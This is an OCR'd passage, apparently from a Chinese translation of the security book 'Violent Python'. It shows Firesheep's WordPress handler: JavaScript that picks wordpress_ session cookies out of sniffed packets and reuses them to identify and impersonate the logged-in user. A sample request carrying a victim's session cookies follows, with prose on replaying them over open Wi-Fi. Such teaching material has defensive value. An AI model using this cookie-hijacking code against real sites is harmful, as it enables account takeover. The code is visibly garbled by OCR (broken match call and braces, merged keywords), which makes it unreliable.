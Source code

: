 ```
// Authors:
// Eric Butler <eric@codebutler.com>
register({
    name: 'Wordpress',
    matchPacket: function (packet) {
        for (varcookieName in packet.cookies) {
            if (cookieName.match0 {
                return true;
        }
    }
},
processPacket: function () {
    this.siteUrl += 'wp-admin/';
    for (varcookieName in this.firstPacket.cookies) {
        if (cookieName.match(/^wordpress_[0-9a-fA-F]{32}$/)) {
            this.sessionId = this.firstPacket.cookies[cookieName];
                break;
        }
    }
},
identifyUser: function () {
    var resp = this.httpGet(this.siteUrl);
this.userName = resp.body.querySelectorAll('#user_info a')[0].textContent;
this.siteName = 'Wordpress (' + this.firstPacket.host + ')';
    }
}); 
```

## 理解 WordPress 的 Session Cookie

在一个实际的数据包中，这些 cookie 看起来像下面那些，这里的受害者运行 Safari 浏览器连接 WordPress 在`www.violentpython.org`。注意，字符串以`wordpress_e3b`开始包含了受害者的`sessionID` cookie 和用户名。

```
GET /wordpress/wp-admin/HTTP/1.1
Host: www.violentpython.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_7_2)
AppleWebKit/534.52.7 (KHTML, like Gecko) Version/5.1.2 Safari/534.52.7
Accept: */*
Referer: http://www.violentpython.org/wordpress/wp-admin/
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Cookie: wordpress_e3bd8b33fb645122b50046ecbfbeef97=victim%7C1323803979
%7C889eb4e57a3d68265f26b166020f161b; wordpress_logged_in_e3bd8b33fb645
122b50046ecbfbeef97=victim%7C1323803979%7C3255ef169aa649f771587fd128ef
4f57;
wordpress_test_cookie=WP+Cookie+check
Connection: keep-alive 
```

在下图中，一个攻击者在火狐上运行 Firesheep 工具，识别出相同的字符串发送到未加密的无线网络上。然后他用抽取的凭证登陆到 `www.violentpython.og` 上。注意，HTTP GET 请求和我们原来的请求一样，有同样的 cookie，但是源自不同的浏览器。虽然他不是描述这里，但是值得注意的是请求来自不同的 IP 地址，攻击者不能和受害者使用相同的机器。
